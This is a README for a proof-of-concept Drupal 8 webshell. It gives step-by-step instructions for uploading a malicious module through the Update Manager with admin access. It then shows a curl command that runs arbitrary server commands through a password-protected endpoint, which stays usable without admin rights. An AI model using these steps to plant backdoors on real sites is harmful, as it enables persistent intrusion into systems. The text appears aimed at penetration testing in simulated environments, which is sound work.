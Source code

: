 # Drupal Webshell

## Disclaimer

The author of these files is not responsible for how you use these files.
This is a proof of concept and should not be used outside of simulated environments.


The webshell was tested on Drupal 8.
Newer version may not be compatible.
Additionally, the metasploit module `drupal_drupalgeddon2` allows unautenticated RCE against Drupal 8 instances already,
making this webshell pretty much obsolete.

## Requirements

- Admin access to the Drupal dashboard.
- tHE "Update Manager" extension is available on the Drupal instance.

## Installation

1. Set the correct Drupal core version in the file `./b1tc0r3_rce_module/b1tc0r3_rce.info.yml`.
2. Set your own password in the file `./b1tc0r3_rce_module/src/Controller/B1TC0R3RCEController.php`.
3. Compress all files into a tarball. This is the expected format for a Drupal module.

```bash
tar czf b1tc0r3_rce.tar.gz b1tc0r3_rce_module
```

4. On the Drupal dashboard, navigate to the "Extend" section.
5. Left-click on the descrption of "Update Manager". I know, Drupals extension menu is not the most well designed.
6. Click on "Configure".
7. Upload the file through the web form that should not be open.
8. Commands can now execute commands like this:

```bash
curl http://ADDR/b1tc0r3_rce?proof=PASSWORD&command=COMMAND
```

Note that executing commands does **not** require administrative access to the Drupal dashboard.
This kind of privilege is only required to upload the shell.
